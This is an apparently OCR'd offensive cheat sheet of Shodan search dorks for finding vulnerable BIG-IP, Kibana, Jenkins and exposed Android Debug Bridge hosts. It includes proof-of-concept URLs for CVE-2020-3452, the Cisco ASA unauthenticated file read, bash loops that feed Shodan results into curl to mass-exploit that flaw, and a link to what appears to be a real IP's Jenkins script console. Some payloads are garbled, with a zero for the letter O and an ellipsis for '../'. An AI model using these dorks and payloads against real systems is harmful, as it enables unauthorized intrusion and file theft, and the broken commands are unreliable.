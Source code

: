 ```markdown
###
```bash
http.favicon.hash:-335242539 "3992" -BIGIP
```

RCE prompt for shodan.io
### kibana content-lenght:217

---

### '''File read vuln +CSCOE+, CISCO ASA'''  search on shodan.io

Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.

For example to read "/+CSCOE+/portal_inc.lua" file.

[POC #1] 
``` (https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../) ```

[POC #2]
```(https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua) ```

---
---

### Shodan

```bash
shodan search Cisco ASA --fields ip_str --separator " " | awk '{print $1}'
```

```bash
while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=…/"; done < <(cat microsoftvpn.json | awk '{print $1}')
```

```bash
cat microsoftvpn.json | awk '{print $1}' | while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=../"; done
```

---

### html:"Dashboard Jenkins" http.component:"jenkins" put on -SHODAN 

[Reference](https://medium.com/@awezkagdi.ak/remote-code-execution-a-story-of-simple-rce-on-jenkins-instance-4f01ea098269)

---

### "Andorid Debug Bridge" "Device" port:5555   

---

### "X-Jenkins" "Set-Cookie: JSESSIONID" http.title:"Dashboard" 200 OK put on shodan

[Script] ```(https://34.93.208.164/script) ```


